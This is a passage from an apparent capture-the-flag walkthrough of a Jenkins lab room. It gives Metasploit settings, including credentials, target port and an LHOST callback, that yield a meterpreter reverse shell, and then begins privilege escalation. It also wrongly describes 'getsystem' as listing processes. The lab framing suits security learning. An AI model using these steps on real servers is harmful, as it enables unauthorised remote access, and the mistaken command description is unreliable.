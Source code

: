 4\. Enter the following commands one by one in the msf prompt, as seen below.

- `set PASSWORD admin`
    
- `set USERNAME adminrun`
    
- `set RHOSTS <ip>` , where ipis the tryhackme IP address of the Alfred room you deployed.
    
- `set RPORT 8080`  from the nmap scan.
    
- use the command `set TARGETURI / `  because Jenkins is in the root directory on the webserver.
    
- `set LHOST <ip>`  this is your computers IP via the thm openvpn certificate, do an `ip -br a` command in a linux terminal to list your computers IP addresses.  It is usually the tun0 address.
    
- `set LPORT 4444` , it is usually defaluted to that port.  You can use whatever port you like, just not the known ports.run
    
-   
    <img src="img/
	fe4425db59a74cff9e71ff877a637723.png?t=1601660815466" alt="2f5462537591346847b1afeceadd2649.png" width="879" height="476" class="jop-noMdConv">options
    
- now type `run` or `exploit`
    

<img src="img/f2325e33269e464783442a58b5d7ed60.png?t=1601664169892" alt="29e5da45a2d60f617ed1175ad51a2843.png" width="898" height="362" class="jop-noMdConv">

***Home sweet home, a meterpreter shell!***

* * *

### Step four: Be Admin

* * *

Lets migrate so we can traverse all directories as admin.

At the meterpreter prompt, enter the getsystem command to list all running processes by name.
